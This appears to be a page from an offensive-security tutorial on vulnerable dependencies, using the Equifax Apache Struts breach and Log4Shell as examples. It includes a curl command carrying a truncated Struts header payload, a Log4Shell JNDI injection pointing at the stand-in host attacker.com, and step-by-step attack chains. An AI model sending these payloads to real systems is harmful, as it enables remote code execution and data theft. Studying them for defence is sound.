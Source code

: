 
# 🔥 Chapter 3: Real-World Scenarios – Vulnerable and Outdated Components

When outdated or vulnerable components exist in production environments, attackers capitalize on publicly disclosed exploits, weak dependency management, and third-party integrations. Below are **real-world examples**, **attack chains**, and **deep offensive insights**.

---

## 💣 1. **Apache Struts CVE-2017-5638 (Equifax Breach)**

### 🔎 What Happened:

Equifax failed to patch a critical vulnerability in **Apache Struts 2**, allowing attackers to remotely execute OS-level commands via crafted Content-Type headers.

### 🧠 Offensive Breakdown:

* CVE was public with a PoC.
* `curl -X GET https://victim.com -H 'Content-Type: %{(#nike='multipart/form-data')....}` → remote shell.
* Lack of WAF, no virtual patching, no detection.

### 🧱 Attack Chain:

1. Scan for Struts headers
2. Test with payload
3. Reverse shell via HTTP
4. Data exfiltration from internal systems

---

## 💣 2. **Log4Shell – Log4j RCE (CVE-2021-44228)**

### 🔎 What Happened:

An exploit in **Log4j** allowed attackers to execute arbitrary code via log inputs that triggered LDAP lookups.

### 💡 Exploitation:

```bash
curl https://victim.com -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```

* Resulted in remote code execution.
* Affects Minecraft, Steam, AWS services, etc.

### 🧱 Attack Chain:

1. Scan services logging user input
2. Inject `${jndi:ldap://attacker.com/exploit}`
3. Host LDAP+HTTP malicious payload
4. Gain shell or code execution
5. Lateral movement in cloud infra

---